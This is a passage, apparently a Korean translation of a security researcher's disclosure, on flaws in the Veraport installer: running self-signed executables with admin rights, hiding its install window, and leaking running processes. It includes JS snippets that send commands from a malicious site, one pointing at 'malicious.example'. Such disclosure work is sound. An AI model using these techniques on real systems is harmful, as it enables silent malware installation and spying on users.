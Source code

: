 ```xml
<hashCheck>ignore</hashCheck>
```

이것은 일반적인 코드 서명에 관한 것이다.
그리고 코드 서명이된 악성 소프트웨어에 대해서는 [들어본 적이 있다](https://www.makeuseof.com/tag/what-is-code-signed-malware/).

하지만 서명이 유효하지 않아도 된다!
자체 서명된 실행 파일을 서버에 업로드하려고 했다.
그리고 베라포트는 이것이 아무 문제 제기 없이 실행되도록 허용했다!

![Console window titled “delfino-g3.exe”, on top of it a message box saying “Hi.”](https://palant.info/temp/sZ5dD1oX9vE5aP9a/running.png)

내가 만든 최소한의 "악성" 애플리케이션이 그다지 인상적이지 않다는 것을 안다.
하지만 실제 악성 소프트웨어는 여기서 시스템 깊숙이 파고들 것이다.
어쩌면 파일 암호화를 시작하거나, 사용자을 염탐하거나, 사용자의 돈을 전부 털기 위해 "단순히" 다음 은행 거래를 기다릴 지도 모른다.

이 애플리케이션은 이제 관리자 권한으로 실행되며 시스템의 모든 항목을 변경할 수 있다는 것을 기억하라. 
사용자는 권한 상승 프롬프트(애플리케이션의 유효하지 않은 서명에 대해 경고하는 메시지)를 수락할 필요조차 없었다 – 베라포트 자체가 각 개별 설치 프로그램에 대한 권한 상승 프롬프트를 표시하지 않기 위해 권한상승된 상태로 실행된다.

### 시각적 단서 제거

분명히, 사용자는 갑자기 나타난 베라포트 설치 화면을 보면 걱정할 수도 있다.
운 좋게도 공격자는 해당 설치 화면을 마음대로 설정할 수 있다.

예를 들어 악성 웹 사이트는 다음과 같은 설정을 전달할 수 있다:

```js
  send_command("getAxInfo", {
    "configure": {
      "type": "normaldesc",
      "addinfourl": "http://malicious.example/addinfo.json",
      …
    }
  });
```

`addinfo.json` 파일은 다운로드에 대한 이름과 설명을 임의로 변경할 수 있어서 사용자가 의심을 갖지 않도록 한다:

![Screenshot of the Veraport window listing a number of applications with names like “Not TouchEn nxKey” and “Not IPinside LWS.” Description is always “Important security update, urgent!”](https://palant.info/temp/sZ5dD1oX9vE5aP9a/customized.png)

그러나 텍스트를 조작할 필요조차 없다.
`bgurl` 설정 매개변수는 창 전체의 배경 이미지를 설정한다.
이 이미지의 크기가 잘못된 경우 어떻게 될까?  베라포트 창은 그 크기에 따라 크기가 조정된다.
그리고 그것이 1x1 픽셀 이미지라면?
그럼 보이지 않는 창이된다.
임무 완료: 시각적 단서 없음.

## 정보 유출: 로컬 애플리케이션

베라포트 서버에서 지원하는 흥미로운 명령 중 하나는 'checkProcess' 이다: 애플리케이션 이름을 넘겨주면 현재 실행 중인 경우 프로세스에 대한 정보를 반환한다.
애플리케이션 이름으로 `*`를 넘겨주면 어떻게 될까?

```js
let processes = send_command("checkProcess", "*");
```
